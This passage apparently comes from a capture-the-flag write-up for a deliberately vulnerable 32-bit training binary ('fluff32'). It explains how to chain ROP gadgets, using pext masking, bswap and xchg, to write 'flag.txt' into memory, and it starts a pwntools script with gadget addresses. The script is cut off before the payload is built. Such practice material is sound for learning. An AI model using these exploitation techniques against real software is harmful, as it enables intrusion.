 ```

[INFO] File: fluff32
0x08048555: xchg byte ptr [ecx], dl; ret;
```
This looks very promising combined with the ```pop ecx; bswap ecx; ret``` gadget previously found, as we could simply pass the address of ```.data``` into ```ecx```.
Maybe we could chain this with the so-called "useful" gadgets given to us, especially that one involving the ```pext``` instruction.
Looks like ```0xb0bababa``` is the equivalent of ```10110000101110101011101010111010``` in binary, so we must make sure that when we apply this mask to ```eax``` we get our desired characters, which we can pop off the stack through the ```pop ebp``` gadget.
So we will have to keep an eye on those bits as we will have to do apply a mask to them, similarly to a subnetting process in networking.
Let's arrange them so it will be easier to do the bitwise operations:
```
the bit value: 0  1  0  1  1  1  0  1  0  1  0  1  1  1  0  1  0  1  0  1  1  1  0  1  0  0  0  0  1  1  0  1
bit positions: 0  1  2  3  4  5  6  7  8  9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31
```

For now, these will be the gadgets that I will be focusing on:
```
gadget0 = 0x08048543: mov eax, ebp; mov ebx, 0xb0bababa; pext edx, ebx, eax; mov eax, 0xdeadbeef; ret;
gadget1 = 0x080485bb: pop ebp; ret;
gadget2 = 0x08048555: xchg byte ptr [ecx], dl; ret;
gadget3 = 0x08048558: pop ecx; bswap ecx; ret;
```

This is the attack plan I've come up so far with:
```
gadget3 # now we will have the address of (.data + i) inside ecx
address of (.data + i) reversed, where i is the i'th byte of the string we are trying to write into memory
gadget1
a number with bits set according to the bits set of the character we want to write:
	example: f = 01100110, so we will have to pass a number that has bits 3, 4, 9 and 11 set only
gadget0
gadget2
```

We are going to do this 8 times, for every character of ```flag.txt```.

Now, the final script:
```python
#!/usr/bin/env python3

from pwn import *

context.arch = "i386"
context.bits = 32
context.endian = "little"
context.os = "linux"

# addresses
data_addr = 0x804a018 # address of .data
print_file = p32(0x80483d0) # address of print_file()'s PLT entry

# gadget addresses
pext_edx = p32(0x8048543) # mov eax, ebp; mov ebx, 0xb0bababa; pext edx, ebx, eax; mov eax, 0xdeadbeef; ret;
pop_ebp = p32(0x80485bb) # pop ebp; ret;
xchg_ecx_dl = p32(0x8048555) # xchg byte ptr [ecx], dl; ret;
pop_bswap_ecx = p32(0x8048558) # pop ecx; bswap ecx; ret;

```